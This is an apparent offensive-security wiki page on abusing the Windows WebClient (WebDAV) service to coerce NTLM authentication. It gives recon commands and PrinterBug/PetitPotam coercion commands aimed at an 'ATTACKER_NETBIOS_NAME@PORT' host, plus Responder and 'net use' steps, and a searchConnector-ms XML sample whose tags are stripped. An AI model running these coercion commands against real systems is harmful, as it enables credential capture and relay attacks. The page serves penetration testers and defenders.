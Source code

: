```yaml
---
authors: ShutdownRepo, mpgn, sckdev, Pri3st, rtpt-romankarwacik
---
```


# WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. It allows attackers to elicit authentications made over HTTP instead of SMB, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organizations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

::: tabs

=== UNIX-like

From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
netexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav
```


=== Windows

From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```

:::


### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

> [!TIP]
> To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.
> 
> In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.
> 
> A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/print" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/print"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

::: tabs

=== Map a WebDAV server

By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```


=== searchConnector-ms

With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
xml version="1.0" encoding="UTF-8"?

Microsoft Outlook
false
true

{91475FE5-586B-4EBA-8D75-D17434B8CDF6}


https://whatever/


```


=== Explorer

By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.

=== Service trigger

According to [tiraniddo's research](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html), the webclient service is registered with a service trigger, meaning it can be started automatically in response to a specific system event.
A simple way to start the service in an unprivileged session is by compiling and executing the following [C# PoC](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) created by [klezVirus](https://gist.github.com/klezVirus).

=== SharpStartWebclient

By compiling and executing the [SharpStartWebclient](https://github.com/eversinc33/SharpStartWebclient) tool created by [eversinc33](https://github.com/eversinc33)

=== Beacon Object File

By using the following [BOF (Beacon Object File)](https://github.com/outflanknl/C2-Tool-Collection/blob/main/BOF/StartWebClient/SOURCE/StartWebClient.c) created by [outflanknl](https://github.com/outflanknl).

:::


## Resources

[https://www.webdavsystem.com/server/access/windows](https://www.webdavsystem.com/server/access/windows)
[https://pentestlab.blog/2021/10/20/lateral-movement-webclient](https://pentestlab.blog/2021/10/20/lateral-movement-webclient)
[https://www.tiraniddo.dev/2015/03/starting-webclient-service.html](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html)
